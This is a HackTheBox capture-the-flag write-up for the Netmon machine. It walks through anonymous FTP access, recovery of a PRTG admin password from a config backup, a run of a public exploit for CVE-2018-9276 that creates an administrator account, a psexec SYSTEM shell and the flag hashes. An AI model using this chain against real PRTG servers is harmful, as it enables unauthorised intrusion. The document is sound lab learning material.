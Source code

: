 ```yaml
---
title: "Netmon"
date: 2025-05-08
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Netmon

![](../assets/Pasted%20image%2020250508134550.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.152
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-08 13:47 CEST
Nmap scan report for 10.10.10.152
Host is up (0.042s latency).
Not shown: 62818 closed tcp ports (reset), 2704 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2016
OS CPE: cpe:/o:microsoft:windows_server_2016
OS details: Microsoft Windows Server 2016
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1m30s, deviation: 0s, median: 1m29s
| smb2-time: 
|   date: 2025-05-08T11:50:32
|_  start_date: 2025-05-08T11:48:21

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   41.88 ms 10.10.14.1
2   42.26 ms 10.10.10.152

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.58 seconds
```

The webpage shows a [PRTG Network Monitor (NETMON)](https://www.paessler.com/prtg) solution.

![](../assets/Pasted%20image%2020250508135810.png)

The `ftp` can be accessed anonymously and the `Windows` folder contains `PRTG Configuration.dat` with passwords.

```shell
$ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:kali): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||54567|)
150 Opening ASCII mode data connection.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.
ftp> cd windows
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||54568|)
150 Opening ASCII mode data connection.
11-20-16  09:53PM       <DIR>          ADFS
...
02-25-19  10:54PM              1189697 PRTG Configuration.dat

```

```shell
cat PRTG\ Configuration.dat | grep -C 10 password
...
<login>
  prtgadmin
</login>
<name>
  PRTG System Administrator
</name>
<ownerid>
  100
</ownerid>
<password>
  <flags>
	<encrypted/>
  </flags>
  <cell col="0" crypt="PRTG">
	JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
  </cell>
  <cell col="1" crypt="PRTG">
	OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW
  </cell>
</password>
```

Nothing. Searching in the official documentation, we find [this article](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) and it says:

![](../assets/Pasted%20image%2020250508180130.png)

So, using the `ftp` access:

![](../assets/Pasted%20image%2020250508180227.png)

Get the three files and `grep password` on them:

```shell
cat PRTG\ Configuration.old.bak | grep -C 5 password  
  0
</dbauth>
<dbcredentials>
  0
</dbcredentials>
<dbpassword>
  <!-- User: prtgadmin -->
  PrTg@dmin2018
</dbpassword>
```

The credential doesn't work on the login form. Trying `2019` instead works.

![](../assets/Pasted%20image%2020250508181026.png)

There is an article explaining that RCE can be achieved using the notification system, and `searchsploit` has the script.

![](../assets/Pasted%20image%2020250508181944.png)

```shell
$ ./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=ezZEMTY5NTVELTk5MzctNDE0RS05RUZFLUU0MTZBMDE0RjQ1RX0%3D"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.                                                                                                             
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'               

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
```

You can check the user with `nxc`:

![](../assets/Pasted%20image%2020250508182032.png)

```shell
$ impacket-psexec pentest:'P3nT3st!'@10.10.10.152
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file KCrmulCz.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service fcVl on 10.10.10.152.....
[*] Starting service fcVl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Post Exploitation

Get the flags:

```shell
C:\Users\Public\Desktop> type user.txt
0fe81dbc5fcd232892dc3c5b7fd24fcf

C:\Users\Administrator\Desktop> ype root.txt
6984b9873bd41d7af69204c3999c0d41
```
